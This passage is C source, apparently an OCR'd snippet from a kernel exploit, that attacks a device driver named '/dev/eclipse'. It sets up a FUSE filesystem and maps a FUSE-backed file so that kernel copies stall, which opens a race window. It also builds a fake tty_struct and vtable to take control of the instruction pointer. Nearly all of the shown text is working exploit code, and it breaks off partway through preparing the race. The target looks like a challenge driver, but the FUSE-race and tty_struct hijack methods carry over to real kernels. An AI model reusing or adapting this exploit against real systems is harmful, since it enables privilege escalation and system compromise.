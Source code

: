 ```c
    setup_done = 1;

    // Use single-threaded FUSE loop instead of multi-threaded
    fuse_loop(fuse);

    fuse_unmount("/tmp/test", chan);
    return NULL;
}

// MAP FUSE FILESYSTEM
void* mmap_fuse_file(void) {
    if (pwn_fd != -1) close(pwn_fd);
    pwn_fd = open("/tmp/test/pwn", O_RDONLY);
    if (pwn_fd == -1) fatal("/tmp/test/pwn");

    void *page;
    page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                MAP_PRIVATE, pwn_fd, 0);
    if (page == MAP_FAILED) fatal("mmap");
    return page;
}

int main(int argc, char **argv) {

	// craft fake tty_struct for RIP control
	long* dev_ptr = calloc(0x1000, sizeof(char));
	long* vtable = calloc(0x1000, sizeof(char));
	*(long*)((long)vtable+96) = 0x5050505050505050; // I have RIP control here.
	*(long*)((long)dev_ptr+0x38) = 0x10004;
    memset(fuse_file_data, 0x00, sizeof(fuse_file_data));
    *(long*)((long)fuse_file_data + 0x0) = 0x100005401;
    *(long*)((long)fuse_file_data + 0x8) = 0x0;
    *(long*)((long)fuse_file_data + 0x10) = dev_ptr;
    *(long*)((long)fuse_file_data + 0x18) = vtable;

	// setup FUSE filesystem
    pthread_t th;
    pthread_create(&th, NULL, fuse_thread, NULL);

    // Give sufficient time for FUSE to setup
    while (!setup_done) {
        usleep(10000);
    }
    sleep(1);

    void *page;
    fd = open("/dev/eclipse", O_RDWR);
    if (fd == -1) fatal("/dev/eclipse");

    page = mmap_fuse_file();

    struct user_req a;
    a.data = page;
    a.size = 1024;

    puts("[+] starting alloc");
    if (ioctl(fd, CMD_ALLOC, &a) < 0) {
        fatal("CMD_ALLOC failed");
    }
    puts("[+] alloc done");

    // Prepare for race condition
    a.size = 0x28;
```